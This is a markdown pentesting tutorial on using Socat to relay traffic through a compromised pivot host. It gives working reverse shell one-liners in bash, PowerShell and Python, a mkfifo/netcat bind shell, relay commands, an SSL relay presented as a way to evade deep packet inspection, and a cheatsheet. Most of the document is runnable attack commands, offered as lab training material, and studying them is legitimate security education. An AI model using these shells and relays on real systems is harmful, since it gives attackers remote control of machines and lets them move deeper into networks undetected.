


# 🏓 Socat Redirection

Socat (SOcket CAT) is a multipurpose relay tool for bidirectional data transfer between two independent data channels. Think of it as `netcat` on steroids — it can create relays between virtually any combination of network sockets, files, pipes, and devices.

In pivoting scenarios, Socat shines as a traffic redirector: you place it on a compromised host and use it to relay connections between your attack machine and deeper targets that you can't reach directly.

---

## 1. Socat Fundamentals

### How Socat Differs from Netcat

| Feature | Netcat | Socat |
| :--- | :--- | :--- |
| Bidirectional relay | ❌ One-shot | ✅ Full duplex |
| Protocol support | TCP/UDP | TCP, UDP, SSL, UNIX sockets, pipes, PTY, and more |
| Fork mode (multi-client) | ❌ | ✅ (`fork` option) |
| Traffic redirection | Manual piping | Built-in relay |
| Availability | Pre-installed on most Linux | Often needs installation |

### Basic Syntax

```bash
socat [options] <address1> <address2>
```

Socat connects two "addresses" and relays data between them. Addresses can be TCP listeners, TCP connections, UDP sockets, STDIO, files, exec'd programs, etc.

---

## 2. Socat Redirection with a Reverse Shell

### Scenario

You've compromised a **pivot host** on the DMZ. A deeper target on the internal network can reach the pivot host but *cannot* reach your attack machine directly. You want to catch a reverse shell from the internal target.



### Step 1: Start Your Listener on the Attack Machine

```bash
# On your Kali box
sudo nc -lvnp 443
```

### Step 2: Start the Socat Relay on the Pivot Host

```bash
# On the compromised pivot host
# Listen on port 8443, and forward all traffic to attacker on port 443
socat TCP4-LISTEN:8443,fork TCP4:10.10.14.18:443
```

**Breaking this down:**

- `TCP4-LISTEN:8443` — Listen on TCP port 8443 on all interfaces
- `fork` — Fork a new child process for each connection (allows multiple connections)
- `TCP4:10.10.14.18:443` — Forward the traffic to your Kali box on port 443

### Step 3: Execute the Reverse Shell on the Internal Target

The payload on `172.16.5.19` should point to the **pivot host's** internal IP:

=== "Bash"

    ```bash
    bash -i >& /dev/tcp/10.129.202.64/8443 0>&1
    ```

=== "PowerShell"

    ```powershell
    $client = New-Object System.Net.Sockets.TCPClient("10.129.202.64",8443);
    $stream = $client.GetStream();
    [byte[]]$bytes = 0..65535|%{0};
    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);
        $sendback = (iex $data 2>&1 | Out-String );
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback);
        $stream.Write($sendbyte,0,$sendbyte.Length);
        $stream.Flush()
    }
    $client.Close()
    ```

=== "Python"

    ```python
    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.129.202.64",8443))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    subprocess.call(["/bin/sh","-i"])
    ```

The reverse shell hits the pivot host on port 8443 → Socat relays it to your Kali box on port 443 → Netcat catches the shell.

---

## 3. Socat Redirection with a Bind Shell

### Scenario

The internal target is running a bind shell (listening on a port), but you can't reach it directly from your attack machine. The pivot host can reach it.



### Step 1: Start the Bind Shell on the Internal Target

```bash
# On the internal target — start a bind shell listener
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -lvp 8443 > /tmp/f
```

### Step 2: Start the Socat Relay on the Pivot Host

```bash
# On the pivot host — relay connections from port 4455 to the target's bind shell
socat TCP4-LISTEN:4455,fork TCP4:172.16.5.19:8443
```

### Step 3: Connect from Your Attack Machine

```bash
# On Kali — connect to the pivot, which relays to the bind shell
nc -nv 10.129.202.64 4455
```

You now have a shell on `172.16.5.19` through the Socat relay.

---

## 4. Advanced Socat Options

### Encrypted Relay with SSL

Socat can wrap traffic in SSL to evade deep packet inspection:

```bash
# Generate a self-signed certificate
openssl req -newkey rsa:2048 -nodes -keyout relay.key -x509 -days 365 -out relay.crt
cat relay.key relay.crt > relay.pem

# SSL-encrypted relay on the pivot
socat OPENSSL-LISTEN:8443,cert=relay.pem,verify=0,fork TCP4:10.10.14.18:443
```

### UDP Relay

```bash
# Forward UDP traffic (useful for DNS or SNMP)
socat UDP4-LISTEN:5353,fork UDP4:172.16.5.19:53
```

### Verbose / Debug Mode

```bash
# Add -d -d for debug output to troubleshoot relay issues
socat -d -d TCP4-LISTEN:8443,fork TCP4:10.10.14.18:443
```

---

## 5. Cheatsheet

| Scenario | Command (on Pivot Host) |
| :--- | :--- |
| **Reverse Shell Relay** | `socat TCP4-LISTEN:<pivot_port>,fork TCP4:<attacker_ip>:<attacker_port>` |
| **Bind Shell Relay** | `socat TCP4-LISTEN:<pivot_port>,fork TCP4:<target_ip>:<target_port>` |
| **SSL Relay** | `socat OPENSSL-LISTEN:<port>,cert=relay.pem,verify=0,fork TCP4:<dest_ip>:<dest_port>` |
| **UDP Relay** | `socat UDP4-LISTEN:<port>,fork UDP4:<dest_ip>:<dest_port>` |
| **Debug Mode** | Add `-d -d` before any address |
| **Background Relay** | Append `&` or use `nohup socat ... &` |
